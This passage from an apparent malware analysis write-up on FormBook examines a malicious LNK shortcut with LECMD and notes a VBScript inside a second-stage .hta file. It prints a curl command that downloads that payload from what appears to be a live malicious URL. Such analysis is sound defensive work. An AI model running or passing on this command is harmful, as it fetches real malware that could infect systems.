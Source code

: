 <br>

it's crucial to understand that LNK files often serve as shortcuts to executable programs, making them susceptible to exploitation for malicious code execution. 
Consequently, I immediately employed LECMD to extract the command-line arguments that would be executed if the program were run, providing essential insights into potential malicious activities.

<div style="text-align: center;">
    <img src="/assets/images/2024-06-13-MalwareAnalysis_FormBook/lecmd output.PNG" alt="Screenshot1" />
    <br>
    <sub>Figure 2: LECMD Output reveals URL</sub>
</div>
<br>

This output revealed a 2nd stage that is being downloaded from a URL.
Here is a CMD command to download the file without executing it safely.

```batch
curl http://armanayegh.com/wee/wow123.hta > wow123.hta
```

# Static Analysis - Stage 2

Observing the .hta file revealed that there is a Visual Basic script inside, as shown in Figure 3.

<div style="text-align: center;">
    <img src="/assets/images/2024-06-13-MalwareAnalysis_FormBook/1st stage obf.PNG" alt="Screenshot1" />
    <br>
    <sub>Figure 3: Showing The Content of the .hta file</sub>
</div>